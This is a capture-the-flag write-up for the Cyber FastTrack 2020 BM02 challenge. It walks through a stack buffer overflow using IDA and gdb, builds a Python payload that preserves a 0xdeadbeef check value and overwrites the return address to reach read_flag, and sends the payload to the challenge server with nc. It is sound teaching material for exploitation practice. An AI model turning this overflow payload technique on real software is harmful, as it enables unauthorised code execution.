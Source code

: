 # Cyber FastTrack Spring 2020- BM02 Solution
In this challenge, we use buffer overflow to display the flag.\
BM02_1.PNG ![image info](BM02_1.PNG)
* We use IDA software to display the structure of this program. There are the exploitable(char const*) function and the read_flag(void) function. Also, there are some local variales that stored in the explotable() function. For a better understanding of the program, we need a gdb debugger.

BM02_2.PNG
![image info](BM02_2.PNG)
* In the terminal, we type `gdb <name of your program>` to start the debugger.
* Type `run` to run the program in the debugger.
* Hold down the Ctrl key and press c
BM02_3.PNG
* Notice that, in order to enter the exploitable() function, we first need to enter `add_candidate` to add employee and then enter the exploitable() function.
BM02_4.PNG and BM02_5.PNG and BM02_6.PNG
* Enter `disas exploitable(char const*)`
* Enter `c` to continue without paging
* we use break *address to set a break point. In this case, we use 0x5655634d.
* Type `break *0x5655634d`
* Type `run`
* Type `add_candidate`
* Enter one information for each of the First Name, Last Name, and Job Title.
* * In this case, I entered `First` as the First Name, `Last` as the Last Name, and `Title` as the Job Title.
* Then, you will encounter an breakpoint at `Breakpoint 1, 0x5655634d in exploitable(char const*) ()`
BM02_7.PNG
	Enter info frame to get the return address that stored at eip. In this case, the return address is 0x56557492. 
BM02_8.PNG
	Display the current and the next 199 stack pointer.
	Enter x/200x $sp
	The addresses that are 0x00000000 are local variables that we need to fill in before changing the return address. So in a text file, we enter
	print("add_candidate")
	print('A'*20)
	and save it as a python file.
BM02_9.PNG
	Hit Ctrl + c to exit the current program
	Run the program as:
	Type run < <(python bm02.py)
	Type y to start from the beginning
	In order to see the differences, we enter x/200x $sp to display the current and the next 199 stack pointer.
	From BM02_9.PNG, we see that there are 25 0x00000000 remaining for us to fill out and then we have to overwrite the 0xdeadbeef.
	Next, in order for us to change to return address, we need to overwrite the addresses that are before the return address. There are 3 adresses remaining to changes. Then, we changes the return address to 0x5655615d. Remember, we have to write the address in reverse byte order.
	We changes the contents of the python file to:
	print("add_candidate")
	print('A'*120 + '\xef\xbe\xad\xde' + 'A'*12 + '\x5d\x61\x55\x56')
BM02_10.PNG
	Hit Ctrl + c to exit the current program
	Run the program as:
	Type run < <(python bm02.py)
	Type y to start from the beginning
	Enter info frame to see if the return address changed to 0x5655615d.
BM02_11.PNG
	Use si to execute one instruction at a time to see if the program enters the read_flag(void) function.
	We see that the program enters the read_flag(void) function.
BM02_12.PNG
	Use si to execute one instruction at a time and we will see the flag eventually.
BM02_13.PNG
	In order to get the server to response to our request, we also need to print out the last name and the job title, so we edit the python file as below:
	print("add_candidate")
	print('A'*120 + '\xef\xbe\xad\xde' + 'A'*12 + '\x5d\x61\x55\x56')
	print("last name")
	print("job title")
	Send the bm02.py to the server and it would prints out the flag.
	python bm02.py | nc bm02.allyourbases.co 9003





	
